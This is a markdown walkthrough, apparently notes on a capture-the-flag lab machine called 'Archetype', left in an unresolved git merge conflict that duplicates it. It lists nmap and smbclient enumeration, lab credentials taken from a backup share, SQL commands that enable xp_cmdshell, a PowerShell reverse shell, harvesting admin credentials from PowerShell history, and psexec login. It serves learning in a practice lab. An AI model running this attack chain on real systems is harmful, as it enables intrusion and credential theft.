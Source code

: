 <<<<<<< HEAD
- nmap it
	- 135: msrpc
	- 139: netbios-ssn
	- 445: Microsoft Server 2008 
		- likely vulnerable Samba
		- add `nmap --script smb-os-discovery <ip>`
			- → Computer name: Archetype
	- 1433: SQL server 2017 14.00.1000
		- CVEs: CVE-2021-1636, CVE-2019-1068, CVE-2019-0819
	- 

- smb
	- `smbclient -N -L //<IP>/`
		- list (-L) directories with no password (-N)
			- ADMINS\$ → nothing
			- backups 
				- → can sign in - backup file
					- `get <FILE> <>`
					- Username: `ARCHETYPE\sql_svc` 
					- Password: `M3g4c0rp123` 
					- Provider SQL
			- C\$ → nothing
			- IPC\$ → nothing

- SQL
	- connect to SQL: `mssqlclient ARCHETYPE\sql_svc:M3g4c0rp123@<IP> -windows-auth`
	- set up xp_cmdshell
		- ```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;  
			sp_configure;  
			EXEC sp_configure 'xp_cmdshell', 1  
			reconfigure;  
			xp_cmdshell "whoami"
		- run each on their own line
	- make shell.ps1 Powershell reverse shell script
	- run Python server
	- set up listerer
	- get access to the machine
		- find user flag in `C:\Users\sql_svc\Desktop`

- privilege escalation
	- check frequently access/execute file:
		- `type    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		- → `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! `
		- Administrator: `Administrator`
		- Password: `MEGACORP_4dm1n!!`

- sign in to machine as Administrator
	- `psexec.py administrator@<IP>`
=======
- nmap it
	- 135: msrpc
	- 139: netbios-ssn
	- 445: Microsoft Server 2008 
		- likely vulnerable Samba
		- add `nmap --script smb-os-discovery <ip>`
			- → Computer name: Archetype
	- 1433: SQL server 2017 14.00.1000
		- CVEs: CVE-2021-1636, CVE-2019-1068, CVE-2019-0819
	- 

- smb
	- `smbclient -N -L //<IP>/`
		- list (-L) directories with no password (-N)
			- ADMINS\$ → nothing
			- backups 
				- → can sign in - backup file
					- `get <FILE> <>`
					- Username: `ARCHETYPE\sql_svc` 
					- Password: `M3g4c0rp123` 
					- Provider SQL
			- C\$ → nothing
			- IPC\$ → nothing

- SQL
	- connect to SQL: `mssqlclient ARCHETYPE\sql_svc:M3g4c0rp123@<IP> -windows-auth`
	- set up xp_cmdshell
		- ```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;  
			sp_configure;  
			EXEC sp_configure 'xp_cmdshell', 1  
			reconfigure;  
			xp_cmdshell "whoami"
		- run each on their own line
	- make shell.ps1 Powershell reverse shell script
	- run Python server
	- set up listerer
	- get access to the machine
		- find user flag in `C:\Users\sql_svc\Desktop`

- privilege escalation
	- check frequently access/execute file:
		- `type    C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		- → `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!! `
		- Administrator: `Administrator`
		- Password: `MEGACORP_4dm1n!!`

- sign in to machine as Administrator
	- `psexec.py administrator@<IP>`
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
	- get Administrator's flag in `C:\Users\Administrator\Desktop`
